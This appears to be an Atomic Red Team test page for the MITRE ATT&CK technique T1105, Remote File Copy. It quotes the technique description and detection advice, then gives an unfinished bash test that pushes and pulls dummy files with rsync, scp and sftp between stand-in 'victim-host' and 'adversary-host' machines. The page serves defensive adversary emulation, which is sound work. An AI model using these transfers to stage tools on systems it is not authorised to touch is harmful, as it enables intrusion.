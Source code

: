 # T1105 - Remote File Copy
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1105)
<blockquote>Files may be copied from one system to another to stage adversary tools or other files over the course of an operation. Files may be copied from an external adversary-controlled system through the Command and Control channel to bring tools into the victim network or through alternate protocols with another tool such as FTP. Files can also be copied over on Mac and Linux with native tools like scp, rsync, and sftp.

Adversaries may also copy files laterally between internal victim systems to support Lateral Movement with remote Execution using inherent file sharing protocols such as file sharing over SMB to connected network shares or with authenticated connections with Windows Admin Shares or Remote Desktop Protocol.

Detection: Monitor for file creation and files transferred within a network over SMB. Unusual processes with external network connections creating files on-system may be suspicious. Use of utilities, such as FTP, that does not normally occur may also be suspicious.

Analyze network data for uncommon data flows (e.g., a client sending significantly more data than it receives from a server). Processes utilizing the network that do not normally have network communication or have never been seen before are suspicious. Analyze packet contents to detect communications that do not follow the expected protocol behavior for the port that is being used. (Citation: University of Birmingham C2)

Platforms: Linux, macOS, Windows

Data Sources: File monitoring, Packet capture, Process use of network, Netflow/Enclave netflow, Network protocol analysis, Process monitoring

Permissions Required: User

Requires Network: Yes</blockquote>

## Atomic Tests

- [Atomic Test #1 - xxxx](#atomic-test-1---xxxx)


<br/>

## Atomic Test #1 - xxxx
xxxx

**Supported Platforms:** linux, macos


#### Run it with `bash`!
```
### TODO: Not sure how to handle commands that need to be run on multiple systems

# Adversary System Configuration
# Ensure SSH access has been configured for an adversary account
echo "This file transferred by scp" > /tmp/adversary-scp
echo "This file transferred by sftp" > /tmp/adversary-sftp
mkdir /tmp/adversary-rsync
cd /tmp/adversary-rsync
touch a b c d e f g

# Victim System Configuration
# Ensure SSH access has been configured for a victim account
# Ensure write access for victim account to this directory
mkdir /tmp/victim-files
cd /tmp/victim-files

# Push files to victim using rsync
rsync -r /tmp/adversary-rsync/ victim@victim-host:/tmp/victim-files/

# Pull files from adversary using rsync
rsync -r adversary@adversary-host:/tmp/adversary-rsync/ /tmp/victim-files/

# Push files to victim using scp
scp /tmp/adversary-scp victim@victim-host:/tmp/victim-files/

# Pull file from adversary using scp
scp adversary@adversary-host:/tmp/adversary-scp /tmp/victim-files/scp-file

# Push files to victim using sftp
sftp victim@victim-host:/tmp/victim-files/ <<< $'put /tmp/adversary-sftp'

# Pull file from adversary using sftp
sftp adversary@adversary-host:/tmp/adversary-sftp /tmp/victim-files/sftp-file

```
<br/>
